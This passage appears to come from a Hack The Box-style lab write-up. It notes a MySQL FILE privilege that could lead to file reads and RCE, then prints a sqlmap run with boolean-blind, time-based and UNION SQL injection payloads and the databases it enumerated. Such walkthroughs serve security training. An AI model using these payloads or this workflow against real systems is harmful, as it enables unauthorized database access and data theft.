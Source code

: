 Got `FILE` privilege which we can read files from filesystem and also write files that we can leverage this point to access configuration files, logs, source code and even RCE.

Next gonna check the database.
```bash 
sqlmap -r req --batch --dbs
```

```sql
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.9.9.4#dev}
|_ -| . [,]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:30:51 /2025-09-28/

[13:30:51] [INFO] parsing HTTP request from 'req'
[13:30:52] [INFO] resuming back-end DBMS 'mysql'
[13:30:52] [INFO] testing connection to the target URL
got a 302 redirect to 'http://vote.cobblestone.htb/details.php?id=4'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: url (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: url=http://vote.cobblestone.htb/index.php' AND 5926=5926 AND 'GBwC'='GBwC

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (SLEEP)
    Payload: url=http://vote.cobblestone.htb/index.php' AND SLEEP(5) AND 'CmvC'='CmvC

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: url=-6395' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x716b626271,0x5050685272454b637067796d43666d72656a42795669764e784141746e64484d527351556a745651,0x7178627171),NULL-- -
---
[13:30:54] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.62
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[13:30:54] [INFO] fetching database names
available databases [2]:
[*] information_schema
[*] vote

[13:30:55] [INFO] fetched data logged to text files under '/home/rouxtronics/.local/share/sqlmap/output/vote.cobblestone.htb'

[*] ending @ 13:30:55 /2025-09-28/
```
